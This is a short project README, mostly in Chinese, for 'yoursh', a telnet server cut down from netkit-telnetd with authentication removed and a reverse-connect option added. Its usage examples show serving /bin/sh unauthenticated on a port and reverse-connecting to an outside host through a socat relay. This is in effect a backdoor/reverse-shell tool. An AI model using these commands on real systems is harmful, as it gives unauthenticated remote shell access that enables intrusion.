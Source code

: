 Your Shell
==========
从 netkit-telnetd 项目简化出的一个telnet服务端，身份认证等功能已经从源码中移除
额外添加了反弹链接功能
# 使用方法

	yoursh [-l port | -r host:port] [-L program] [-n] [-h]
	-l port     Bind the <port> and listen, default port 80. (default option)
	-r          Reverse connect to the <port> of speciafied <host>, it is essential to make port forwarding.
	-L program  Login program, default '/bin/sh'.
	-n          Keep connection alive.
	-h          Help

# 构建

使用 `make` 命令构建

# 用例

	$ yoursh -l 10023 -n
	## 监听 10023 端口并开启续命

	$ yoursh -r 123.123.123.123:9998 
	## 运行 `socat tcp4-listen:9998 tcp4-listen:9999` 在主机 123.123.123.123, 
	## 9999端口是 telnet 服务端接入端口


